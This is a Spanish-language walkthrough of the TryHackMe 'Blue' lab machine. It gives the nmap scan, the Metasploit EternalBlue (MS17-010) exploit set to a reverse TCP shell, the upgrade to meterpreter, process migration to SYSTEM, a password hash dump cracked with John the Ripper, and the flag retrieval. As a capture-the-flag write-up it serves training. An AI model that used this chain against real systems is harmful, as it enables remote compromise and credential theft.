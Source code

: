 # Blue

En este documento expondremos el recorrido realizado por la máquina Blue de TryHackMe, así como las soluciones propuestas.

Escaneamos la máquina objetivo haciendo uso de nmap. Más concretamente, emplearemos el comando **nmap -sV -sC --script vuln IP.** Gracias a este, averiguaremos los puertos abiertos, los servicios en ejecución en dichos puertos, y sus versiones correspondientes. Además, obtendremos el nombre del host, que es **JON-PC**, y la vulnerabilidad que podremos emplear contra la máquina para acceder a la misma, siendo la CVE-2017-0143, que permite la ejecución remota de código en servidores con Microsoft SMBv1 (**ms17-010**). Esto lo vamos a dividir primero buscaremos los puertos abiertos y l nombre del host y luego realizaremos el comando de las vulnerabilidades

![cbb9d40bf4d10ce2c5fa7362c448063a.png](../_resources/cbb9d40bf4d10ce2c5fa7362c448063a.png)

![8cefa11e42b227782b9dc2a2d332adce.png](../_resources/8cefa11e42b227782b9dc2a2d332adce.png)

## Gain Access

Iniciamos Metasploit con el comando sudo msfconsole, y una vez dentro, buscamos la forma de explotar la vulnerabilidad ms17-010. Para ello, empleamos el término search, seguido de la susodicha vulnerabilidad.

![8cc5d1d60e2284fb1b1b62807715ce82.png](../_resources/8cc5d1d60e2284fb1b1b62807715ce82.png)

Comandos que vamos a utilizar:

use 0 o la ruta en concreto (use exploit/windows/smb/ms17_010_eternalblue)  
show options  
set rhosts (IP THM)  
set lhost (IP de nuestra VPN)  
set payload windows/x64/shell/reverse_tcp  
run

Vemos que la primera opción (*eternalblue*), es perfecta para tratar de acceder a la máquina, por lo que la seleccionamos, y mostramos las opciones del exploit.

![3d53a897c4a0b17734a72c45df6b2e0e.png](../_resources/3d53a897c4a0b17734a72c45df6b2e0e.png)

Cambiamos la opción RHOSTS a la IP de la máquina a vulnerar. Después de esto, podremos ejecutar el exploit, haciendp uso del comando run o exploit.

![7d039fb6d54f2873b36327a48eaa1a23.png](../_resources/7d039fb6d54f2873b36327a48eaa1a23.png)

Y ahora usamos el comando run:  
Al finalizar nos tienen que mostrar la siguiente salida:

![6ce5f9870797c59fa2ce69b9c1327927.png](../_resources/6ce5f9870797c59fa2ce69b9c1327927.png)

Una vez que vemos que ha funcionado, oprimimos CTRL+Z para dejar la sesión iniciada en segundo plano (background). y pulsamos y para guardar la session

![08e154bdffbccd82b28b239d1c96a43e.png](../_resources/08e154bdffbccd82b28b239d1c96a43e.png)

## Escalate

Convertimos nuestra shell en meterpreter, y para ello buscamos en Metasploit \*shell_to_meterpreter. Una vez que nos muestre los resultado, elegimos la primera (use 0).

![67f4932883c1138e6adac74880ab6a52.png](../_resources/67f4932883c1138e6adac74880ab6a52.png)

Una vez realizado el comando lo seleccionaremos con el comando use (numero identificativo) y luego utilizaremos el comando show options para ver que modulos son requeridos.

![e3be3bc72ce52831a4951dd9776a6442.png](../_resources/e3be3bc72ce52831a4951dd9776a6442.png)

También debemos cambiar la opcion LHOST a nuestra IP VPN

![95b8b92acc2d60bab55acdc6bdec24a9.png](../_resources/95b8b92acc2d60bab55acdc6bdec24a9.png)

Podemos mostrar todas las sesiones activas con el comando sessions -l

![589e46bbea04472f20f48ae822201e5b.png](../_resources/589e46bbea04472f20f48ae822201e5b.png)

![95b5fa9a4a98511be0d792f012579e96.png](../_resources/95b5fa9a4a98511be0d792f012579e96.png)

&nbsp;

Una vez convertida la sesión hay que seleccionarla para poder utilizar la línea de comandos:  
![2d989baca99940c22c447ab51d695f23.png](../_resources/2d989baca99940c22c447ab51d695f23.png)

Seleccionamos la sesión en la que se encuentra el meterpreter

![7308ea6b3fb489e59dca0789cd817565.png](../_resources/7308ea6b3fb489e59dca0789cd817565.png)

Si ejecutamos el comando shell seguido de whoami, la consola nos muestra NT authority\\system, lo que indica que hemos accedido y escalado privilegios de forma exitosa en el sistema.

![69b5f204b1841778cb199aa4a465d8b2.png](../_resources/69b5f204b1841778cb199aa4a465d8b2.png)

Ahora listaremos todos los procesos del sistema con el comando ps, para migrar a un proceso corriendo bajo el usuario NT authority\\system. Este proceso se podría encontrar en el fondo de la lista (en nuestro caso es el proceso conhost.exe)

![60b6031ee256b2050cd914e50a64fd76.png](../_resources/60b6031ee256b2050cd914e50a64fd76.png)

Cracking

Comenzaremos ejecutando el comando hashdump, que mostrará los hashes de las contraseñas de los diferentes usuarios del sistema, entre ellos el usuario JON-PC, que es el que nos interesa.

![adfd7a2067986897ebca76ef23834e8f.png](../_resources/adfd7a2067986897ebca76ef23834e8f.png)

Luego, anotaremos el hash de la contraseña del usuario antes mencionado en un archivo llamado hash.txt, de modo que usando el software johntheripper, podamos crackear el hash.

Una vez obtenido el hash de la contraseña, se debe copiar en un txt y descifrar la contraseña verdadera con la herramienta John de la siguiente manera:

![cfd40eada3c63b7712641f68aad8f218.png](../_resources/cfd40eada3c63b7712641f68aad8f218.png)

## Flags

La primera flag la encontramos en el directorio C:\\, la cual tras usar un cat en el archivo que vemos en la siguiente imagen nos mostrará la solución.

![8bfbe96af4e2017be81de4a9a95c8b5b.png](../_resources/8bfbe96af4e2017be81de4a9a95c8b5b.png)

Para encontrar la segunda flag emplearemos el comando search -f flag2.txt, lo que nos arrojará como resultado la ubicación de la misma

![60479f2abf960fe11fac9497df37d34b.png](../_resources/60479f2abf960fe11fac9497df37d34b.png)

Y haremos lo mismo que hicimos con la primera flag utilizando el comando cat para visualizarlo:

![2feb6d55a40acad83c258be5041c2d09.png](../_resources/2feb6d55a40acad83c258be5041c2d09.png)

La tercera y última flag la encontramos en el directorio Documents del usuario JON-PC, por lo que accedemos a dicha carpeta y usamos cat de nuevo.

![fc594e6176afdbd0f1cdd300dff47a63.png](../_resources/fc594e6176afdbd0f1cdd300dff47a63.png)

&nbsp;

&nbsp;